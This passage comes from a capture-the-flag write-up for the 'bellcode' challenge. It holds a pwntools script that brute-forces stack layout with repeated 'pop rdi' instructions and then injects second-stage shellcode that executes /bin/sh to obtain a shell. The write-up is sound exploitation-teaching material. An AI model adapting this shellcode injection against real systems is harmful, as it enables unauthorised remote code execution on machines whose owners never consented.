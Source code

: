 Into:

![after-overwrite.png](images/after-overwrite.png)

Continueing execute and we will have shell. Now let's put those code into a for loop to bruteforce `pop rdi`:

```python
for i in range(1, 100):
    p = process(exe.path)
    # p = remote('bellcode.chal.imaginaryctf.org', 1337)
    ######################################################
    ### Stage 1: Executing read(0, 0xfac300, 0xfac300) ###
    ######################################################
    payload = asm(
        'mov esi, 0xfac300\n' + 
        'pop rdi\n'*i +                 # Dunno stack so bruteforce
        'syscall\n'
        , arch='amd64')
    p.sendlineafter(b'shellcode?\n', payload)

    #################################
    ### Stage 2: Modify shellcode ###
    #################################
    shellcode = asm(
        '''
        mov rax, 0x3b
        mov rdx, 29400045130965551
        push 0
        push rdx
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        syscall
        ''', arch='amd64')

    try:
        time.sleep(0.1)
        p.send(b'A'*(7+i) + shellcode)
        p.interactive()
    except:
        pass
```
